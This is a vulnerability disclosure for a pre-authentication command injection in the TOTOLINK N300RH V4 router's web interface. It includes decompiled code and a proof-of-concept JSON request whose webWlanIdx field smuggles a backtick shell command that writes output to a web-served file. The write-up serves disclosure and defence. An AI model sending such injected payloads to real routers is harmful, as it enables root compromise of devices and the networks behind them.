


# Information

**Vendor of the products:** TOTOLINK

**Vendor's website:** [TOTOLINK](https://www.totolink.net/)

**Affected products:** N300RH_V4

**Affected firmware version:** V6.1c.1353\_B20190305、V6.1c.1349\_B20181018

**Impact:**   
Remote, unauthenticated OS command execution as root via the web management interface.

**Firmware download address:** [https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/188/ids/36.html](https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/188/ids/36.html)

> The vulnerability was verified on firmware version V6.1c.1353\_B20190305. Earlier versions listed above share the same code pattern and are very likely affected as well.

# Overview

A pre‑authentication OS command injection vulnerability exists in the `setWebWlanIdx`​ functionality exposed via the web management interface (`/cgi-bin/cstecgi.cgi`) of the TOTOLINK N300RH V4 router.

The CGI handler retrieves user‑controlled input from the HTTP parameter `webWlanIdx`​, embeds it directly into a shell command string using `sprintf`​, and executes it via `CsteSystem()` without any sanitization or escaping. As a result, a remote attacker with network access to the web interface can inject arbitrary shell commands and execute them with root privileges on the device, without authentication.

This allows full compromise of the router and, potentially, further compromise of the attached network.

# Vulnerability Details

The vulnerable function (from the router’s firmware, decompiled) is:

```c
int __fastcall setWebWlanIdx(int a1, int a2, int a3)
{
  const char *Var; // $v0
  _BYTE v7[64]; // [sp+18h] [-40h] BYREF

  Var = (const char *)websGetVar(a2, "webWlanIdx", "0");
  sprintf(v7, "echo %s > /tmp/webWlanIdx", Var);
  CsteSystem(v7, 0);
  websSetCfgResponse(a1, a3, "0", "reserv");
  return 0;
}
```

1. **Unvalidated external input**  
   ​`websGetVar(a2, "webWlanIdx", "0")`​ reads the `webWlanIdx` parameter from the HTTP request. No validation, filtering, or length checking is performed.
2. **Command string construction**  
   The parameter is inserted directly into a shell command template using `sprintf`:

   ​`sprintf(v7, "echo %s > /tmp/webWlanIdx", Var);`

   Because `%s`​ is used without escaping, shell metacharacters such as `;`​, `|`​, `&`​, `` ` ``​, `$()`​, etc., can break out of the intended `echo` command and inject additional commands.
3. **Execution with system‑level privileges**  
   The resulting string is executed via `CsteSystem(v7, 0)`​, which is effectively equivalent to calling `system()` on an embedded Linux system. This typically runs with root privileges.

Overall, this matches ​**CWE‑78: Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection')** .

# Attack Scenario and Exploitability

## Preconditions

- The attacker can reach the router’s web management interface (typically HTTP on port 80, possibly HTTPS on 443), either:

  - from the Internet if remote management is enabled, or
  - from the local network/Wi‑Fi segment.
- No authentication is required for this particular endpoint (pre‑auth).

## Example Exploit (PoC)

An attacker can send the following HTTP POST request body:

```c
{
	"topicurl":"setting/setWebWlanIdx",
	"webWlanIdx":"1`id >> /usr/lib/lighttpd/web/123.txt`"
}
```

## Verification of Exploit

construct the poc, and send:



We can access the 123.txt file by GET request:



the Command we constructed had executed successfully.

‍
